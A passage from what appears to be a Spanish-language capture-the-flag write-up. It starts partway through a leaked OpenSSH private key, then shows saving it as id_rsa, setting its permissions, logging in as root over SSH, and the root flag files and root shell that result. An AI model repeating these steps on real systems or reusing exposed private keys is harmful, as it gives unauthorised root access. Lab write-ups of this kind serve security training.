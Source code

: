 ```bash
uL/iYSTVBZzHGmRsOwKfrQjYRRCVepyHjA6EcfLrazbKcw7RbwAkrbvDDJzAl/pc2G1aoP
ydH+/2KbOKDOxxT/eGVi6j6UqU/QYyuojO2uUUskp40kpFGneBgeOWuWPxF6OhMYuI1RxS
GnfgRvoBfQWXcbavwRAAABACTI5Q4s315vFZrp5CSflxEg+fGeICaTU7EbHiLfXlECI5B2
CLOM/QHlILTabW89oTGvFcxufDHhXrIv9fECiGw4sjaGjqmgARkOb1kA3v6T5tHEaOY6zS
ltxrkABBkbg7bYIR6G0LLRoNzfF+PEFjw493ceaLZ1RU56B3CzVr1Nh6dTlr2W//rahyfS
8BLGg5D4znkmFMhRM/ax1o89L8gJC5sMRVwOwKRqQJZU+W9jyki3drVdKTpBqdaJNCwN8O
iqMxNNkDNwiP4LmAhVdhvnAbex9ugIcV8GRVV+NczL/fwCwvsnm9Wk6Ex9tsbp8lIw062x
v0TKxsVdYKtem/8AAAEBAOamB1+HBrNofhpvrvtS72Nw0BBelizY1ED1Ply3wzyFQm0r2c
KxcBDuc3GODqBpm+t76Bqkdxd9LAOFuKwvJeR7A1ilIu7qlcTKofZbdCteVW9EeJ4aYiYM
PGGMz6IS2Cx2BlPEBTSgMpqvt7/XQtCm5Mj2ya2IQQDLSuEHz+c5ri64pk0G/EZMRUpqNg
liJRXFsFJFQNA7VGxGbiZ38f7do6iaIGp3YS36drGC4X5K1JxcFt3BDakZjHJ7RkyeVzj2
PJj1IIgLDgzy6Kqd2lutbp6VPHYorrzK9LsDP1RN0cN0P6HHo3wZEur0imLEbeKHg3aK8+
xn8VgC26O5f3EAAAEBAN2wL0V3wKzpV6s+IrEvU/oSwKIeiuciiuv0ILSz1rfcf0XKq7MG
4vyxLxjdl6dKAkfuYNKkfja7qby6vPI/naBld3PDJY83WCTOwzhoxidowyONTmGxS1vwOZ
PHVI3xMHgL7KuAWbCjJ1myn+Qn2Dcun28TU+eeIp2fzQixazEBMWMEKE1zV4/bxpgCwm6D
GVwNqrZgbgxW6Q57cnLSJWDF28lX8lufXIXZRCZVYSUnFHkWobeq0p1WwWn4wjZNpOfLjd
RI2RLx4IzhxkkdY0K4U7QYYjYy+ZBXaKmD7Yhu0gYxT2bzA6QwkYAfsMBS+a3FvYhaUn3o
E1zouE9CMyUAAAARcm9vdEBiODE3MzRhMmMwNzcBAg==
-----END OPENSSH PRIVATE KEY-----
```

Ahora esta clave la copiamos y la guardamos en un archivo **id_rsa** y despues le damos permsios:
```bash
chmod 600 id_rsa
```

Ahora nos conectamos como **root**
```bash
# Comando para escalar al usuario: ( root )
ssh -i id_rsa root@localhost
```

---

## Evidencia de Compromiso
Flags **root**
```bash
ls -la /root

-rw-r--r--  1 root root   68 Aug 14  2024 root.txt
-rw-r--r--  1 root root   33 Aug 14  2024 true_root.txt
```

```bash
# Captura de pantalla o output final
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.11.2-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Aug 14 17:57:47 2024 from 172.19.0.1

root@82aade8ab41b:~# whoami
root
```

---